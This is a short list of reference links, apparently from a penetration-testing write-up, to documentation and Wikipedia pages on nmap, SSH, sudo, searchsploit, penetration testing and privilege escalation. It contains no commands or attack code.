- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Nmap - Wikipedia](https://en.wikipedia.org/wiki/Nmap)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Penetration test - Wikipedia](https://en.wikipedia.org/wiki/Penetration_test)
- [Privilege escalation - Wikipedia](https://en.wikipedia.org/wiki/Privilege_escalation)
- [searchsploit - Homepage](https://www.exploit-db.com/searchsploit)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
